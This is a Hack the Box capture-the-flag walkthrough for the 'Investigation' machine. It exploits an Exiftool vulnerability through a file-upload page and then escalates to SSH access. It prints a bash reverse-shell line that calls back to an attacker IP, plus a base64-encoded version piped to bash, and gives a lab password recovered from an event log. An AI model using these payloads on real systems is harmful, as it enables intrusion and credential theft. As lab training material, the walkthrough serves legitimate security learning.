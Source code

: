 # Hack the Box - Investigation

```CSS
Machine IP: 10.10.11.197 - Linux
```
- Home Page
![image](https://user-images.githubusercontent.com/83878909/229590867-b6247863-847c-4542-9262-8b49d68df091.png)
- Service Page (File Upload)
![image](https://user-images.githubusercontent.com/83878909/229591086-ae649d64-42c7-4d06-b226-766ab832b99b.png)
- Analysed Image Report
![image](https://user-images.githubusercontent.com/83878909/229594569-1b66a61c-ca06-46af-ab8a-74fc5013a9e5.png)

## Exiftool
- Version 12.97 is vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429).

## Exploit
  - Testing the exploit using ping. Ping the attacker machine and capture ICMP packets if the ping is received.
![image](https://user-images.githubusercontent.com/83878909/229599022-e4a6e61a-e57b-443f-867f-d6c083766361.png)
  - Ping received.
![image](https://user-images.githubusercontent.com/83878909/229599327-3589ec39-e31f-4c38-a8c5-20ebf6b5f5dc.png)

- Sending the payload in base64 format and decrypting it on the victim machine.
  - Payload: `/bin/bash -i >& /dev/tcp/10.10.14.34/9001 0>&1`=`echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM0LzkwMDEgMD4mMQ==' | base64 -d | bash |`
![image](https://user-images.githubusercontent.com/83878909/229601047-d8811696-5f5d-482a-a8bc-f421c49b9d36.png)
  - Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/229601230-9c508f23-7f61-4b3b-a0df-42521867ac4c.png)

---

- Found `.msg` file in `/usr/local/investigation`.
  - Transfer the file to attacker machine.
![image](https://user-images.githubusercontent.com/83878909/229604774-0211e995-a22b-4a49-ab70-77968c74c204.png)
  - Receive File - renamed to `analysis.msg`
![image](https://user-images.githubusercontent.com/83878909/229604983-c4243c4e-900b-452d-a88f-20bc83f39555.png)
  - Access the file using an online tool `https://products.aspose.app/`.
![image](https://user-images.githubusercontent.com/83878909/229606099-e31e6d5e-d398-4441-9163-6c8327539e46.png)
  - Download the `zip` file using an online tool `https://www.encryptomatic.com/viewer/`.
![image](https://user-images.githubusercontent.com/83878909/229606850-9d9590fa-ea22-4650-82e9-7ec1a48e82b0.png)
  - Found `security.evtx` after unzipping the file.
  - Use the `evtx-converter.py` script below to create a readable `xml` file.
  - Found default password `Def@ultf0r3nz!csPa$$`.
  - Login in using ssh as user `smorton` and default password.
![image](https://user-images.githubusercontent.com/83878909/229616049-794f5fac-1c4d-4e89-92e0-49bd3378811c.png)

---



